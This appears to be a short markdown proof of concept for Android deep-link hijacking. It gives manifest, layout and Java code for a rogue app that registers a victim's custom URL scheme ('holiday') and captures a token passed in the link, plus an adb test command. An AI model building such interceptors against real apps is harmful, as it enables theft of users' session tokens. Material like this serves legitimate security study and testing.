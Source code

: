 # Deep Links Hijacking 
if there a website using a deep link to a mobile and sending senstive data to it we can hijack this deeplink by creating an app using that listen to the same deeplink


- the activity 
```xml
<?xml version="1.0" encoding="utf-8"?>
<androidx.constraintlayout.widget.ConstraintLayout xmlns:android="http://schemas.android.com/apk/res/android"
    xmlns:app="http://schemas.android.com/apk/res-auto"
    xmlns:tools="http://schemas.android.com/tools"
    android:id="@+id/sniff"
    android:layout_width="match_parent"
    android:layout_height="match_parent"
    tools:context=".MainActivity">

    <TextView
        android:id="@+id/textViewHacked"
        android:layout_width="wrap_content"
        android:layout_height="wrap_content"
        app:layout_constraintBottom_toBottomOf="parent"
        app:layout_constraintEnd_toEndOf="parent"
        app:layout_constraintStart_toStartOf="parent"
        app:layout_constraintTop_toTopOf="parent" />

</androidx.constraintlayout.widget.ConstraintLayout>
```
- AndroidMainfest
```xml
<activity android:name=".Sniff" android:exported="true">
  <intent-filter>
    <action android:name="android.intent.action.VIEW"></action>
    <category android:name="android.intent.category.DEFAULT"></category>
    <category android:name="android.intent.category.BROWSABLE"></category>
    <data android:scheme="holiday" > </data>
</intent-filter>
```
- java code
```java
setContentView(R.layout.activity_sniif); // Ensure the layout file name is correct
Intent intent = getIntent();
Uri uri = intent.getData();
TextView textView = findViewById(R.id.textViewHacked);
if (uri != null) {
  String uriString = uri.toString();
  textView.setText("hacked your account: "+uriString);
} else {
  textView.setText("No Uri data received");
}
```
- adb shell
```shell
am start -a android.intent.action.VIEW -d holiday://example.com?token=123456789
```
